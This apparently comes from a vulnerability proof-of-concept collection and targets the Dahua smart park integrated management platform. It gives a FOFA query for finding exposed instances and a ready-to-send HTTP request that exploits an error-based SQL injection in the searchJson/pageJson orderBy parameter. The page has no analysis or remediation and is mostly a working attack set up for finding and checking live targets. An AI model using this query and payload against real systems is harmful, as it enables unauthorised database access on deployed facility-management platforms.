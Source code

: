 ## 大华智慧园区综合管理平台 searchJson SQL注入漏洞

## fofa

```javascript
app="dahua-智慧园区综合管理平台"
```

## poc

```
GET /portal/services/carQuery/getFaceCapture/searchJson/%7B%7D/pageJson/%7B%22orderBy%22:%221%20and%201=updatexml(1,concat(0x7e,(select%20md5(388609)),0x7e),1)--%22%7D/extend/%7B%7D HTTP/1.1
Host: 127.0.0.1:7443
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip, deflate
Connection: close
```
